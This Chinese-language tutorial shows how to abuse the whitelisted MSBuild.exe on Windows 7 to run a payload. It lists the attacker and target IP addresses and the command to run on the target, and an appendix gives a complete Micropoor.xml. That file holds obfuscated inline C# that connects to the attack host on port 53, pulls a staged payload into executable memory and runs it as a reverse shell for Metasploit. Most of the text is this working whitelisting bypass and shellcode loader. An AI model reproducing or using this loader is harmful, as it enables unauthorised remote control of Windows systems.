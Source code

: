 
### MSBuild简介：

MSBuild 是 Microsoft Build Engine 的缩写，代表 Microsoft 和 Visual Studio的新的生成平台。MSBuild在如何处理和生成软件方面是完全透明的，使开发人员能够在未安装Visual Studio的生成实验室环境中组织和生成产品。

MSBuild 引入了一种新的基于 XML的项目文件格式，这种格式容易理解、易于扩展并且完全受 Microsoft 支持。MSBuild项目文件的格式使开发人员能够充分描述哪些项需要生成，以及如何利用不同的平台和配置生成这些项。

**说明：**Msbuild.exe所在路径没有被系统添加PATH环境变量中，因此，Msbuild命令无法识别。

基于白名单MSBuild.exe配置payload：

Windows 7默认位置为：
```bash
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe
```

**攻击机：**192.168.1.4 Debian  
**靶机：** 192.168.1.3 Windows 7

### 靶机执行：
```bash
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe Micropoor.xml
```
![](/img/0dec9e476e8a77edc2e1fa1a43329f76.jpg)

### 配置攻击机msf：
![](/img/57d9f8497cc0fcd01e0d51b5b6dc0e2a.jpg)

### 附录：Micropoor.xml
**注：x86 payload**

```csharp
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">

<!‐‐ C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe SimpleTasks.csproj Micropoor ‐‐>

<Target Name="iJEKHyTEjyCU">

<xUokfh />

</Target>

<UsingTask

TaskName="xUokfh"

TaskFactory="CodeTaskFactory"

AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\\Microsoft.Build.Tasks.v4.0.dll" >

<Task> 

<Code Type="Class" Language="cs">

<![CDATA[

using System; using System.Net; using System.Net.Sockets; using System.Linq; using System.Runtime.InteropServices; using System.Threading; using Microsoft.Build.Framework; using Microsoft.Build.Utilities;

public class xUokfh : Task, ITask {

[DllImport("kernel32")] private static extern UInt32 VirtualAlloc(UInt32 ogephG,UInt32 fZZrvQ, UInt32 nDfrBaiPvDyeP, UInt32 LWITkrW);

[DllImport("kernel32")]private static extern IntPtr CreateThread(UInt32 qEVoJxknom, UInt32 gZyJBJWYQsnXkWe, UInt32 jyIPELfKQYEVZM,IntPtr adztSHGJiurGO, UInt32 vjSCprCJ, ref UInt32 KbPukprMQXUp);

[DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr wVCIQGmqjONiM, UInt32 DFgVrE);

static byte[] VYcZlUehuq(string IJBRrBqhigjGAx, int XBUCexXIrGIEpe) {

IPEndPoint DRHsPzS = new IPEndPoint(IPAddress.Parse(IJBRrBqhigjGAx), XBUCexXIrGIEpe);

Socket zCoDOd = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);

try { zCoDOd.Connect(DRHsPzS); }

catch { return null;}

byte[] OCrGofbbWRVsFEl = new byte[4];

zCoDOd.Receive(OCrGofbbWRVsFEl, 4, 0);

int auQJTjyxYw = BitConverter.ToInt32(OCrGofbbWRVsFEl, 0);

byte[] MlhacMDOKUAfvMX = new byte[auQJTjyxYw + 5];

int GFtbdD = 0;

while (GFtbdD < auQJTjyxYw)

{ GFtbdD += zCoDOd.Receive(MlhacMDOKUAfvMX, GFtbdD + 5, (auQJTjyxYw ‐ GFtbdD) < 4096 ? (auQJTjyxYw ‐ GFtbdD) : 4096, 0);}

byte[] YqBRpsmDUT = BitConverter.GetBytes((int)zCoDOd.Handle);

Array.Copy(YqBRpsmDUT, 0, MlhacMDOKUAfvMX, 1, 4); MlhacMDOKUAfvMX[0] = 0xBF;

return MlhacMDOKUAfvMX;}

static void NkoqFHncrcX(byte[] qLAvbAtan) {

if (qLAvbAtan != null) {

UInt32 jrYMBRkOAnqTqx = VirtualAlloc(0, (UInt32)qLAvbAtan.Length, 0x1000, 0x40);

Marshal.Copy(qLAvbAtan, 0, (IntPtr)(jrYMBRkOAnqTqx), qLAvbAtan.Length);

IntPtr WCUZoviZi = IntPtr.Zero;

UInt32 JhtJOypMKo = 0;

IntPtr UxebOmhhPw = IntPtr.Zero;

WCUZoviZi = CreateThread(0, 0, jrYMBRkOAnqTqx, UxebOmhhPw, 0, ref JhtJOypMKo);

WaitForSingleObject(WCUZoviZi, 0xFFFFFFFF); }} 

public override bool Execute()

{

byte[] uABVbNXmhr = null; uABVbNXmhr = VYcZlUehuq("192.168.1.4", 53);

NkoqFHncrcX(uABVbNXmhr); 

return true; } }

]]>

</Code>

</Task>

</UsingTask>

</Project>
```

>   Micropoor
